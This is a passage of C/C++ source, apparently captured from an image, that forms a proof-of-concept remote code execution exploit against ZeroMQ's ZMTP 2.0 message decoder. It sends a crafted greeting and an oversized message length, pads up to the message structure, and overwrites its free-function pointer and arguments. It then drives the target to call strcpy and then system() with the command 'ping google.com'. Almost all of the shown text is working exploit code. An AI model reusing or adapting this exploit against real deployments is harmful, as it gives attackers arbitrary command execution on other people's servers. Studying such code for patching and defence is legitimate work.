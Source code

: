 	    if (connect(s, (struct sockaddr *)&remote_addr, sizeof(struct sockaddr)) == -1)
	    {
	        abort();
	    }
	
	    const uint8_t greeting[] = {
	        0xFF, /* Indicates 'versioned' in zmq::stream_engine_t::receive_greeting */
	        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, /* Unused */
	        0x01, /* Indicates 'versioned' in zmq::stream_engine_t::receive_greeting */
	        0x01, /* Selects ZMTP_2_0 in zmq::stream_engine_t::select_handshake_fun */
	        0x00, /* Unused */
	    };
	    send(s, greeting, sizeof(greeting), 0);
	
	    const uint8_t v2msg[] = {
	        0x02, /* v2_decoder_t::eight_byte_size_ready */
	        0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, /* msg_size */
	    };
	    send(s, v2msg, sizeof(v2msg), 0);
	
	    /* Write UNTIL the location of zmq::msg_t::content_t */
	    size_t plsize = 8183;
	    uint8_t* pl = (uint8_t*)calloc(1, plsize);
	    send(s, pl, plsize, 0);
	    free(pl);
	
	    uint8_t content_t_replacement[] = {
	        /* void* data */
	        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	
	        /* size_t size */
	        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	
	        /* msg_free_fn *ffn */
	        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	
	        /* void* hint */
	        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	    };
	
	    /* Assumes same endianness as target */
	    memcpy(content_t_replacement + 0, &arg1Addr, sizeof(arg1Addr));
	    memcpy(content_t_replacement + 16, &funcAddr, sizeof(funcAddr));
	    memcpy(content_t_replacement + 24, &arg2Addr, sizeof(arg2Addr));
	
	    /* Overwrite zmq::msg_t::content_t */
	    send(s, content_t_replacement, sizeof(content_t_replacement), 0);
	
	    close(s);
	    sleep(1);
	}
	
	char destbuffer[100];
	char srcbuffer[100] = "ping google.com";
	
	int main(void)
	{
	    Thread* rt = new Thread();
	    sleep(1);
	
	    callRemoteFunction((uint64_t)destbuffer, (uint64_t)srcbuffer, (uint64_t)strcpy);
	
	    callRemoteFunction((uint64_t)destbuffer, 0, (uint64_t)system);
	
	    return 0;
	}

